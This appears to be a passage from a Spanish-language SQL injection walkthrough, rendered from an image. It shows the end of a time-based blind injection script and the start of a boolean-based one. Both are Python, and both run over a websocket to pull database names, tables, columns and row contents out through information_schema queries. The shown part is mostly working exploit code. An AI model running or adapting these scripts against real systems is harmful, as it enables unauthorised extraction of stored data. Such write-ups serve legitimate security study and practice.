 ```python
						sqlValueToFindColumns = formatOne(sqlValueToFindTables,"columnsName",columnsToConcat)
						valueToFind = findCharacter(valueToFind, sqlValueToFindColumns)
						if valueToFind == "":
							actualValue.status(valueToFind)
							break
					else:
						valueToFind = findCharacter(valueToFind, sqlValueToFindTables)
						if valueToFind == "":
							actualValue.status(valueToFind)
							break
			else:
				valueToFind = findCharacter(valueToFind, sqlValueToFindDatabase)
				if valueToFind == "":
					actualValue.status(valueToFind)
					break
	else:
		valueToFind = findCharacter(valueToFind, sqlValueToFindParameters)
		if valueToFind == "":
			actualValue.status(valueToFind)
			break

print("-----------------------------------------------------------------------------------")
ws.close()
```

#### Demostración del timed based:

![](images/25-TimedBased.png)

### **Boolean based**

```python
import json, time, signal, sys
from websocket import create_connection
from pwn import *
import time

sqlValuesToFind = {"DatabasesName":"(select SCHEMA_NAME from information_schema.schemata where schema_name not in ('information_schema','performance_schema','mysql','sys') limit %d,1)",
"TablesName":"(select TABLE_NAME from information_schema.tables where table_schema = '{databaseName}' limit %d,1)", 
"ColumnsName":"(select column_name from information_schema.columns where table_schema = '{databaseName}' and table_name = '{tableName}' limit %d,1)",
"ValuesTable":"(select concat_ws(',',{columnsName}) from {databaseName}.{tableName} limit %d,1)"}
values = {}
values["DatabasesName"] = []
```